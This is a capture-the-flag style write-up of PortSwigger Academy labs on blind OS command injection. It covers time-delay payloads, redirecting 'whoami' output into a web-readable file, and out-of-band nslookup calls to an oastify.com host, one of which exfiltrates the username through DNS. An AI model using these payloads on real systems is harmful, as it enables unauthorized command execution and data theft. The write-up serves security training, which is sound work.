 ## Labs Covered

This write-up focuses on the following **PRACTITIONER-level labs** from the PortSwigger Web Security Academy:

- **Blind OS command injection with time delays**  
  This lab demonstrates how an attacker can use time-based techniques to detect the success of command injection when no output is returned to the browser.

- **Blind OS command injection with output redirection**  
  This lab shows how attackers can redirect command output to a location they can retrieve later, enabling them to exfiltrate data even if no output is returned in the HTTP response.

- **Blind OS command injection with out-of-band interaction**  
  This lab demonstrates how attackers can use out-of-band channels, such as DNS queries, to receive feedback about whether command injection was successful.

- **Blind OS command injection with out-of-band data exfiltration**  
  This lab builds on out-of-band interaction by showing how attackers can exfiltrate actual data through external DNS queries or other protocols.

---

## LAB 2 - Blind OS command injection with time delays

### Lab Description :

![image](https://github.com/user-attachments/assets/e589100b-f230-4011-952e-2c198736b43d)

### Solution :


There is a function to submit feedback:

![image](https://github.com/user-attachments/assets/7fc034c9-cc06-4520-a406-118ee9e4c341)

Identify if one of the following parameters are 
vulnerable to non-Blind Command Injection:
Parameters: name, email, subject, and message

```

|whoami
&whoami

```

-> payloads don’t work in this case.

3. Now, try to test the said parameters in Blind OS Command Injection

```

||ping -c 10 127.0.0.1||

```
Or

The vulnerability affects the fields “Name”, “Email” and “Message”:
```
"; ping -c 127.0.0.1; echo "a

```

![image](https://github.com/user-attachments/assets/0d087714-7c70-4f76-b216-0194745b22c1)

By adding the  ` & sleep # `  (Note the space before & and after #) / ` & sleep 10 & `(URL-encode before sending) , we can see that the `email` parameter is vulnerable to command injection vulnerability, since there was time delay of 10 seconds.

> By '#' we comment out the rest of the query. Since it is a bash script that is running in the background 

REQUEST

![image](https://github.com/user-attachments/assets/d3736dfb-0eb5-4978-9727-b0fccdcbbc33)

RESPONSE 

![image](https://github.com/user-attachments/assets/9801e5c3-c740-48d7-84ff-8e97fd3248f8)

---

## LAB 3 - Blind OS command injection with output redirection

### Lab Description :

![image](https://github.com/user-attachments/assets/5e965cb7-3428-4ab9-ba09-090b6afddffc)


### Solution :

There is a functionality for submitting feedback:

![image](https://github.com/user-attachments/assets/ef578311-8852-4ff5-ab3c-eac37e58c377)

And the images are retrieved with a **GET** request.

![image](https://github.com/user-attachments/assets/fa7a1719-7f14-404e-a9f6-d335f8553c69)



We need to execute:
```
whoami > /var/www/images/whoami.txt
```
I sent the POST request to intruder and set 3 fields to attack in Sniper mode:

![image](https://github.com/user-attachments/assets/6d6bc618-b2a2-4de6-bcc9-7233e7180841)


Then I added 3 payloads:


![image](https://github.com/user-attachments/assets/977fad18-2a1e-48b0-bf4d-64d0116d3f50)


When we add payloads to the field subject the website returns an error:


![image](https://github.com/user-attachments/assets/42742d63-4ad3-45ef-a140-60fc659f3964)


To test output redirection in the email parameter missed during the intruder attack, we inject a command like `whoami > /var/www/images/whoami` via the URL parameter. A 200 OK response when we send request confirms the file was created .

![image](https://github.com/user-attachments/assets/4d94f426-cd04-4d7b-8f93-cdeeb4cff534)



### Access the file

We get the username **“peter-5fYwD0”** after a GET to **"/image?filename=whoami"**, so the above payload has worked:

![image](https://github.com/user-attachments/assets/22b638f2-95ef-4b2e-9642-9d6ff0404e1a)

**Response**

![image](https://github.com/user-attachments/assets/4d5e58b1-9997-4bb1-bca1-d811686faa34)


---

## LAB 4 - Blind OS command injection with out-of-band interaction

### Lab Description :

![image](https://github.com/user-attachments/assets/68386d07-d75c-4e08-b037-b167941dca19)

### Overview

![image](https://github.com/user-attachments/assets/54567258-ba90-432f-be65-3e82aaea1f30)

### Solution :


There is a function to **submit feedback**:

![image](https://github.com/user-attachments/assets/ca57f3ae-ef5b-43fe-9c2c-1d5aa33df58f)

In this case the command injection is achieved with the payload:
`nslookup 7s0qd0oqa0r71b9pewc0nu7a41asynmc.oastify.com`

![image](https://github.com/user-attachments/assets/eb1639c5-6fb5-48e4-a07b-4a84c3110017)

We get reponse in burp

![image](https://github.com/user-attachments/assets/56fdf55d-7620-42c1-8035-5c0117235a2a)

---

## LAB 5 - Blind OS command injection with out-of-band data exfiltration

### Lab Description :

![image](https://github.com/user-attachments/assets/9f95200c-f64b-4ea3-a8db-70c5f62fb034)

### Solution :

There is a function to submit feedback. It allows out-of-band interaction with the payload:

`$(nslookup juh2fcq2cctj3nb1g8ecp69m6dc400op.oastify.com)`

We get the username **("peter-0B6BNY")** using the below payload which will execute **whoami** command:

`$(nslookup'whoami'.m1o5mfx5jf0maqi4nblfw9gpdgj774vt.oastify.com)`

![image](https://github.com/user-attachments/assets/82d59ff1-6cb7-45d0-9c80-4929a1f979d2)

We get response on burpsuite.

![image](https://github.com/user-attachments/assets/80344474-d188-460c-b74b-0ce717add519)

